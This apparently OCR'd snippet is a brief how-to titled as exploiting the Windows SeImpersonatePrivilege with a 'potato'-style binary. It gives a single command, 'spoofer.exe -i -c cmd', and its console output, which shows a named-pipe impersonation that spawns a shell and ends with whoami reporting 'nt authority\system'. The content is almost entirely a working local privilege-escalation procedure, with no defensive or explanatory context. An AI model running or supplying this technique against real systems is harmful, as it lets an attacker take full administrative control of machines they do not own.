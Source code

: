 ### how to exploit SeImpersonatePrivilege using a juicePotato binary
With potato we can easy use the followint command 
``
C:\Users\Public\Desktop>spoofer.exe -i -c cmd``


```
C:\Users\Public\Desktop>spoofer.exe -i -c cmd
spoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                          

C:\Windows\system32>whoami
whoami
nt authority\system 
```
